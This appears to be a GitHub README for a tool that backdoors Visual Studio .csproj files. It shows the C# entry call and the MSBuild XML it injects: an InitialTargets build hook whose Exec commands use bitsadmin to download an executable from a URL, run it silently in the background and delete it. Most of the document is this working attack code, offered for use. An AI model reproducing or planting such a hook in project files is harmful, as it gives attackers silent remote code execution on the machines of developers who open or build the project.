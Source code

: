 ## Usage:



```cs
CreateInfectedSLN(path to .csproj, random string, direct download url, name of file after download);
```


## So what does this do?

```xml
This edits the file and adds a bit to it:
We change the 15 to 14 and add 'InitialTargets="Build"'
```

#### Clean .csproj:

```xml 
<Project ToolsVersion="15.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
```
#### Modifed .csproj
```xml 
<Project ToolsVersion="14.0" InitialTargets="Build" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
 ```

 ### We then append this to the end of the file:
```xml
<Target Name="Build">
    <Exec Command="bitsadmin.exe /transfer JOSHN38N http://domain.com/filename.exe %temp%\Demo.exe">
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Exec Command="%temp%\Demo.exe">
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Exec Command="del %temp%\Demo.exe" >
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Message Importance="high" Text="$(ErrorCode)"/>
    </Target> 
```
### Here is the biggest part: 

We use bitsadmin to assign a job that downloads and runs the process after its downloaded in the background and requires no user interaction.  
```xml
<Exec Command="bitsadmin.exe /transfer JOSHN38N http://domain.com/filename.exe %temp%\Demo.exe">
 ```
## Extra Example: 
```cs
/*Path = C:\Users\Josh\source\Example\Example\example.csproj;
Job = JOSHN38N;
rURL = http://domain.com/filename.exe;
fName = Demo.exe;*/
```
